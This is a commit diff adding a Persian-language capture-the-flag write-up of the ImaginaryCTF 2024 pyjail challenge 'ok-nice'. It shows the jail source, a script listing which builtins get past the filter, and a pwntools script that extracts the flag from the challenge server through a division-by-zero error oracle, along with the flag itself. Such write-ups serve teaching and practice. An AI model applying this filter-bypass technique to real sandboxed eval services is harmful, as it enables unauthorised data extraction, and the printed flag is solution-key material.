

Before and after one commit to FlagMotori/writeups, an MkDocs documentation site: the page built from docs/tags.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed lines change nothing that is shown.

Commit message:
add ImaginaryCTF - misc - ok nice

````diff
--- /dev/null
+++ b/docs/misc/writeups/ImaginaryCTF/ok-nice.md
@@ -0,0 +1,285 @@
+---
+tags:
+  - ImaginaryCTF
+  - ImaginaryCTF 2024
+  - Misc
+  - pyjail
+---
+
+# چالش ok-nice
+
+
+<center>
+ ![ok-nice](ok-nice.PNG)
+</center>
+
+## آشنایی با مساله
+
+تو این سوال به ما فایل `jail.py` داده شده است. بیایید نگاهی به محتویاتش بیندازیم
+
+```python title="jail.py" linenums="1"
+#!/usr/bin/env python3
+flag = open('flag.txt').read()
+
+print("Welcome to the jail! It is so secure I even have a flag variable!")
+blacklist=['0','1','2','3','4','5','6','7','8','9','_','.','=','>','<','{','}','class','global','var','local','import','exec','eval','t','set','blacklist']
+while True:
+    inp = input("Enter input: ")
+    for i in blacklist:
+        if i in inp:
+            print("ok nice")
+            exit(0)
+    for i in inp:
+        if (ord(i) > 125) or (ord(i) < 40) or (len(set(inp))>17):
+            print("ok nice")
+            exit(0)
+    try:
+        eval(inp,{'__builtins__':None,'ord':ord,'flag':flag})
+        print("ok nice")
+    except:
+        print("error")
+```
+
+
+
+تو این سوال با یک سوال از دسته `pyjail` روبرو هستیم.
+این دسته از سوالات معمولا یک اسکریپت پایتونی داریم که ورودی از کاربر میگیره و در صورتیکه شرط های مساله رو نقض نکرده باشه، ورودی کاربر به `exec` یا `eval` داده میشه و اجرا میشه. و به این طریق فرد میتواند به فلگ برسد.
+
+
+<center>
+ ![pyjail](pyjail.jpg)
+</center>
+
+مساله ما بطور خلاصه سه شرط زیر را دارد:
+
+1. رشته ورودی ما نباید از `blacklist` ها استفاده کرده باشد
+2. حرف‌های رشته ورودی ما باید کد اسکی بین `40` تا `125` داشته باشند (نمیتونیم از `Italic Text` جهت دور زدن شرط ها استفاده کرد)
+3. نباید بیش از `17` حرف متفاوت تو رشته ورودیمون استفاده کرده باشیم
+
+
+در گام نخست میایم لیستی از چیزهایی که میتونیم استفاده کنیم رو بدست میاریم
+
+
+=== "script"
+    ```py
+    import builtins, keyword, string
+
+    blacklist=['0','1','2','3','4','5','6','7','8','9','_','.','=','>','<','{','}','class','global','var','local','import','exec','eval','t','set','blacklist']
+
+    def check(inp):
+        for bad in blacklist:
+            if bad in inp:
+                return False
+        for ch in inp:
+            if (ord(ch) > 125) or (ord(ch) < 40):
+                return False
+        if (len(set(inp))>17):
+            return False
+        return True
+
+    print("\n========= Allowed globals =========")
+    for w in list(globals()):
+        if check(w):
+            print(w)
+
+    print("\n========= Allowed builtins =========")
+    for w in list(builtins.__dict__):
+        if check(w):
+            print(w)
+
+    print("\n========= Allowed keywords =========")
+    for w in list(keyword.kwlist):
+        if check(w):
+            print(w)
+
+    print("\n========= Allowed special chars =========")
+    for w in string.punctuation:
+        if check(w):
+            print(w)
+    ```
+
+=== "output"
+    ```
+    ========= Allowed globals =========
+    In
+    open
+    keyword
+    check
+
+    ========= Allowed builtins =========
+    abs
+    all
+    any
+    ascii
+    bin
+    callable
+    chr
+    compile
+    dir
+    divmod
+    hash
+    hex
+    id
+    len
+    max
+    min
+    ord
+    pow
+    repr
+    round
+    sum
+    None
+    Ellipsis
+    False
+    True
+    bool
+    memoryview
+    complex
+    map
+    range
+    reversed
+    slice
+    super
+    zip
+    BufferError
+    EOFError
+    LookupError
+    MemoryError
+    NameError
+    OSError
+    ReferenceError
+    TypeError
+    ValueError
+    Warning
+    OverflowError
+    ZeroDivisionError
+    EncodingWarning
+    ResourceWarning
+    UnicodeWarning
+    UserWarning
+    BlockingIOError
+    ChildProcessError
+    PermissionError
+    ProcessLookupError
+    IndexError
+    KeyError
+    RecursionError
+    UnboundLocalError
+    UnicodeError
+    BrokenPipeError
+    TabError
+    UnicodeDecodeError
+    UnicodeEncodeError
+    IOError
+    WindowsError
+    open
+    license
+    help
+    runfile
+    display
+
+    ========= Allowed keywords =========
+    False
+    None
+    True
+    and
+    as
+    async
+    break
+    def
+    del
+    elif
+    else
+    finally
+    for
+    from
+    if
+    in
+    is
+    lambda
+    or
+    pass
+    raise
+    while
+    yield
+
+    ========= Allowed special chars =========
+    (
+    )
+    *
+    +
+    ,
+    -
+    /
+    :
+    ;
+    ?
+    @
+    [
+    \
+    ]
+    ^
+    `
+    |
+    ```
+
+
+## راه حل
+
+ورودی ما به تابع `eval` داده میشه و دستور `eval` به خودی خود چیزی نمایش نمیده.
+درنتیجه دستور ما، باید شامل توابعی نظیر `print` باشد تا خروجی را نمایش دهد، اما متاسفانه با توجه به اینکه ما نمیتونیم از فاصله و نقطه و حرف `t` استفاده کنیم، پس استفاده از تابع `print` و نظیرهم کنسل میشه 😕
+
+
+بعد کلی آزمون و خطا، ایده `ZeroDivisionError` به ذهنم اومد، چون سوال وقتی تابع `eval` به ارور بخوره `error` چاپ میشه و از این طریق میتونیم حروف فلگ رو بدست بیاوریم. چطور؟
+میدونیم تو پایتون اگر عددی تقسیم بر صفر شه، به ارور برمیخوریم. پس داریم:
+
+
+```python
+1/0  => ZeroDivisionError
+```
+
+همچنین میدونیم تو پایتون `True` میتواند بعنوان عدد `1`  نیز لحاظ شود و داریم:
+
+```py
+flag[1] == flag[True]
+flag[2] == flag[True+True]
+```
+
+در نتیجه خواهیم داشت:
+
+```python
+True / ( ord('t') - 116 )  => ZeroDivisionError
+True / ( ord(flag[True+True]) - 116 )  => ZeroDivisionError
+```
+
+در ادامه کافیست یک اسکریپت بنویسیم و اینکار رو اتومیت کنیم و فلگ را بدست بیاریم
+
+```py
+from Crypto.Util.number import *
+from pwn import *
+
+context.log_level = "critical"
+# ncat --proxy-type socks5 --proxy 127.0.0.1:2080 ok-nice.chal.imaginaryctf.org 1337
+#context.proxy = (socks.SOCKS4, "127.0.0.1", 2080)
+
+int2T = lambda n: '+'.join(['True']*n)
+
+p = remote(*'ok-nice.chal.imaginaryctf.org 1337'.split())
+for i in range(1, 30):
+    for ch in range(0x20, 0x80):
+        inp = f"True/(ord(flag[{int2T(i)}])-({int2T(ch)}))"
+        p.sendlineafter(b'Enter input: ', inp.encode())
+        if p.recvline().startswith(b'err'):
+            print(chr(ch), end='')
+            break
+```
+
+
+
+---
+??? success "FLAG :triangular_flag_on_post:"
+    <div dir="ltr">`ictf{0k_n1c3_7f4d3e5a6b}`</div>
+
+
+!!! نویسنده
+    [mheidari98](https://github.com/mheidari98)
--- a/mkdocs.yml
+++ b/mkdocs.yml
@@ -180,7 +180,7 @@ nav:
             - DownUnderCTF:         # 05 July 2024
                 - reverse/writeups/DUCTF/jmp_flag.md
                 - reverse/writeups/DUCTF/number_mashing.md
-            - ImaginaryCTF:
+            - ImaginaryCTF:         # 19 July 2024
                 - reverse/writeups/ImaginaryCTF/unconditional.md
             - SnappCTF:             # 22 Feb. 2024
                 - reverse/writeups/SnappCTF/blink.md
@@ -266,7 +266,7 @@ nav:
                 - forensic/writeups/BSidesSF/sgai.md
                 - forensic/writeups/BSidesSF/undelete.md
                 - forensic/writeups/BSidesSF/ztxt.md
-            - ImaginaryCTF:
+            - ImaginaryCTF:         # 19 July 2024
                 - forensic/writeups/ImaginaryCTF/elves.md
             - SnappCTF:             # 22 Feb. 2024
                 - forensic/writeups/SnappCTF/snapp-report.md
@@ -308,6 +308,8 @@ nav:
         - معرفی ابزار:
             - misc/Tools/index.md
         - رایتاپ‌های ۲۰۲۴:
+            - ImaginaryCTF:         # 19 July 2024
+                - misc/writeups/ImaginaryCTF/ok-nice.md
             - DownUnderCTF:         # 05 July 2024
                 - misc/writeups/DUCTF/intercept.md
                 - misc/writeups/DUCTF/recipe.md
````
Also changed, not shown: docs/misc/writeups/ImaginaryCTF/ok-nice.PNG (added), docs/misc/writeups/ImaginaryCTF/pyjail.jpg (added).
